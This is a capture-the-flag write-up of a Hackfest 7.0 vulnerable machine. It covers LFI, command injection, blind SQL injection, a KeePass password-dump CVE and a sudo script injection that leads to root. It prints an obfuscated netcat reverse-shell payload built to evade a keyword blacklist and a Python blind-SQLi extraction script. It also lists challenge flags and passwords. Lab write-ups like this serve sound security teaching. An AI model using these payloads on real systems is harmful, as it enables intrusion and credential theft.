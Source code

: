 I have contributed with Vulnerable Machine as a Penetration Testing challenge for Hackfest 7.0: 
![img](images/image_2023-06-26_001633995.png)
Let's first start with a scan to discover open ports:
![img](images/image_2023-06-25_221255274.png)
So let's go ahead and check the web app on port 80:
![img](images/image_2023-06-25_221211894.png)
We see that there is something with downloading ``report`` from the server.
Also we go ahead and check the source code:
![img](images/image_2023-06-25_221230171.png)
It says that every report has an id, so there must be parameters we could use. With ``report`` and ``id`` there are a few combinations we could take: ``report=&id=``, ``report_id=``, ``id_report=``. So we need to take our time to test all these parameters. But finally we get that the one we'll be using is ``report=&id=``. And since the author talked about downloading reports it might be vulnerable to LFI, which it is! But you will not find this payload on any cheat sheet :p you will need to use some logic:
![img](images/image_2023-06-25_221346724.png)
And now we have our LFI.
Checking everything on the server we find nothing, no cleartext creds or ssh keys or any other thing. So let's check out the ``/etc/hosts`` file:
![img](images/image_2023-06-25_221412943.png)
We have another subdomain ``privatedomainn.locke.challenges.hackfest.tn`` let's check it out:
![img](images/image_2023-06-25_221430709.png)
We type any command and we find it is vulnerable to command injection:
![img](images/image_2023-06-25_221442066.png)
But when we type some other commands it tells us to get away, not very polite huh? :
![img](images/image_2023-06-25_221518226.png)
It must be blacklisted, so after a long time of trying to craft a payload we come up with this payload:
``m=m;a=$'\046';s=$'\057';f=f;p=p;h=h;t=t;c=c;r${m}   ${s}tm${p}${s}f;mk${f}ifo   ${s}tm${p}${s}f;ca${t}  ${s}tm${p}${s}f|s${h}   -i  2>${a}1|n${c}    192.168.1.20    6666    >${s}tm${p}${s}f``
We store characters in variables and then call them, that ways we bypass the blacklist on words, and we use the hex representation of symbols which is interpreted by bash and transformed to the symbol itself, you can try it yourself :D , and we get a callback from the server: 
![img](images/image_2023-06-25_223318248.png)
![img](images/image_2023-06-25_223328201.png)
Enuermating the machine we find nothing useful for privilege escalation, but checking the port the server is listening on we find an interesting one:
![img](images/image_2023-06-25_223347505.png)
This is a filtered web application, so let's try and forward the port to our local machine so we can access it with ease (ps: you can exploit the vulnerability without doing a port forwarding, doing it from inside the machine):
![img](images/image_2023-06-25_225508169.png)
![img](images/image_2023-06-25_225517751.png)
And now we can access it from ``http://127.0.0.1:10003``:
![img](images/image_2023-06-25_225533101.png)
Now let's try to test a bunch of different things:
![img](images/image_2023-06-25_225552903.png)
![img](images/image_2023-06-25_225605097.png)
Hmm interesting, it says that only the admin had the key, so we need to get whatever the admin has.
![img](images/image_2023-06-25_225747594.png)
After a bunch of different payloads we figure that this is vulernable to Blind SQL Injection, so I wrote a small payload in python to exploit this vulnerability:
``python
#!/usr/bin/python
import requests
def string(start,end):
        str=''
        for i in range(start,end):
                str+=chr(i)
        return str
def passwd():
        url='http://127.0.0.1:10003/?username='
        test=string(48,127)
        username="admin' union distinct select 1,2,0x{hex} order by 3 desc%23&password=1"
        flag=""
        for _ in range(32):
                for i in test:
                        data = username.format(hex=(flag+i).encode('hex'))
                        result=requests.post(url+data)
                        if "admin" not in result.text:
                                flag=flag+chr(ord(i)-1)
                                print flag
                                break
if __name__ == '__main__':
        passwd()
``
And we run it:
![img](images/image_2023-06-25_231535263.png)
And YES! We get a hit back with the password.
And if we look closer at the description it said that it must be all lowercase, so let's try to ssh to the machine using this password and using the user ``cryptic``:
![img](images/image_2023-06-25_231850578.png)
And we get our first flag: 
``Hackfest{70de14735437fb48ccc1c85604983b5c}``
Enumerating the machine, we find that this user has some hidden files under his home directory:
![img](images/image_2023-06-25_232511782.png)
I will not be going through this in detail, but this is the latest KeePass CVE released 3 weeks ago, yes we only bring you fresh meet ;) you can check out this repo and follow the steps to solve it: ``https://github.com/vdohney/keepass-password-dumper``
We get the password for the keepass database is: ``mallafouedyesahby``
We open it and we get the creds for iwd user (shoutout to my good friend iwd):
![img](images/image_2023-06-25_233142947.png)
The password is: ``CryptoIs5omtime5UsEFuL``
So we go ahead and ssh into the machine using iwd user:
![img](images/image_2023-06-25_233848208.png)
And we get the second flag: ``Hackfest{65f69907711675ddb07e832539333a6f}``
Enumerating the machine we find that iwd user can execute this command as sudo:
![img](images/image_2023-06-25_233904294.png)
And we can take a look at the source code for the bash script:
![img](images/image_2023-06-25_234055785.png)
This is basically an email checker that requires a specific format as specified in the script and it is vulnerable to command injection in the ``Request`` field, so let's exploit it:
![img](images/image_2023-06-26_001223527.png)
And yes we are ROOT!
And here is out final flag: ``Hackfest{7a899205babaab8623b7cb007b843115}``
